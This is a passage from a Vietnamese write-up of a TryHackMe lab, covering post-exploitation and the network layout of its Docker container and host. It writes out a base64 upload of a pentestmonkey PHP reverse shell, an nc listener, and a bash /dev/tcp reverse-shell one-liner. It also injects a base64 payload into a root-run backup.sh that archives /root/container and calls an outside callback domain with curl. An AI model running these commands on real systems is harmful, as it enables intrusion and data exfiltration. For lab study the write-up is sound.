 Nội dung base32 của domain chính là flag cuối cùng
```
echo "KREE263FONRTI3BUORUW63TTL5XW4X3FONRTI3BUORUW63TTL5XW4X3FONRTI3BUORUW63TTL43WCNJSMIYTOZDCME3GKYTCGBSGGMZYMJRTCMBUHFRGGYTBGA******" | base32 -d
THM{esc4l4tions_on_esc4l4tions_on_esc4l4tions_******************************}
```

### Post exploitation

Sau khi hoàn thành lab và đọc write-ups, mình mới nhớ ra mình đang dùng VPN để làm lab, lý do mình không thể rev-shell là vì mình không dùng attack-box của Tryhackme hoặc là dùng IP tun0 của máy để bắt kết nối rev-shell mà lại dùng 1 con VPS, mà docker của lab này lại không thể kết nối ra ngoài.
    
Tuy vậy, sau khi hoàn thành tất cả flag, ta vẫn ở lại phân tích network của lab này xem sao.

Đầu tiên, xét trường hợp thực thi RCE trong docker container của lab: ta không thể thực hiện kết nối ra ngoài, có lẽ bởi vì docker được cấu hình chặt chẽ. Sau một hồi mày mò thì ta chỉ có thể luẩn quẩn kết nối đến các mạng Docker mà thôi, nội dung của `proc/net/route` như sau:
```
Iface   Destination Gateway    Flags  Mask
eth0    00000000     010011AC   0003   00000000
eth0    000011AC     00000000   0001   0000FFFF
```
Dòng đầu tiên (default route) có ý nghĩa rằng, mọi packet mà docker muốn gửi qua các địa chỉ không nằm trong 172.17.0.0/16 sẽ được đẩy qua gateway 172.17.0.1, tức là Docker bridge (docker0) trên host. Dòng thứ hai sẽ nhận diện các mạng 172.17.0.0/16 (các container với nhau) là mạng nội bộ, các mạng này sẽ không cần gateway nữa.

Điều này nghĩa là, Docker bridge đưa mọi traffic không phải local về host, nhưng host lab chỉ cho phép SNAT/NAT các địa chỉ thuộc mạng lab (10.x.x.x). Mọi thứ khác đều không được forward, đó là lý do không thể resolve hay curl ra ngoài từ trong container, chỉ có thể kết nối đến attack box của Tryhackme hoặc IP của tun0 do VPN cung cấp.

Nhận ra được điều này rồi thì ta có thể thực hiện một rev-shell bằng cách upload một `shell.php` vào thư mục hiện tại nơi chứa index.php sau đó thực thi `shell.php` trực tiếp. Nội dung `shell.php` tùy thuộc vào chúng ta lựa chọn, ở đây ta sẽ chọn script PHP của pentestmonkey. Để upload file, ta có thể thực hiện như sau:

```bash
echo 'PD9waHAKLy8gcGhwLXJldmVyc...<nội dung base64 của shell.php>...' | base64 -d > shell.php
```
Ta sẽ chọn IP của interface tun0 do VPN cung cấp hoặc IP nội bộ của attack box. Port tùy chọn, ở đây ta chọn 2727. Sau đấy thực hiện nghe kết nối đến port này trên machine của mình `nc -lvnp 2727`.

Tiếp đến phần host của lab, trước đấy mình đã có thể RCE bằng cách thay đổi file .sh trong docker, và host khi thực thi file này ta sẽ có thể RCE trên host. Tuy vậy, ta vẫn chỉ có thể thực hiện các request DNS ra ngoài internet, khá khó hiểu.

Để đạt được rev-shell trên host, ta có thể bắt host thực thi câu lệnh bash cơ bản `/bin/bash -i >& /dev/tcp/10.17.58.237/2727 0>&1`. Cách chèn vào `backup.sh` như sau:
```bash
rce> cd /opt/backups; echo 'IyEvYmluL2Jhc2gKdGFyIGNmIC9yb290L2NvbnRhaW5lci9iYWNrdXAvYmFja3VwLnRhciAvcm9vdC9jb250YWluZXIKY3VybCBodHRwOi8vZmR6N2s0MXUucmVxdWVzdHJlcG8uY29t' | base64 -d > backup.sh
```
Hãy cùng phân tích network của host:
```
ip route
default via 10.10.0.1 dev ens5 proto dhcp src 10.10.226.94 metric 100 
10.10.0.0/16 dev ens5 proto kernel scope link src 10.10.226.94 
10.10.0.1 dev ens5 proto dhcp scope link src 10.10.226.94 metric 100 
172.17.0.0/16 dev docker0 proto kernel scope link src 172.17.0.1
```
Kiểm chứng lại việc host chỉ có thể gửi DNS ra ngoài mà không thể gửi các gói HTTP bằng tcpdump:
```bash
sudo tcpdump -vv -n -i ens5 'tcp port 80'
tcpdump: listening on ens5, link-type EN10MB (Ethernet), capture size 262144 bytes
16:34:16.242591 IP (tos 0x0, ttl 64, id 26872, offset 0, flags [DF], proto TCP (6), length 60)
    10.10.226.94.38020 > 130.61.138.67.80: Flags [S], cksum 0xf917 (incorrect -> 0xceef), seq 725419897, win 62727, options [mss 8961,sackOK,TS val 165387373 ecr 0,nop,wscale 6], length 0
```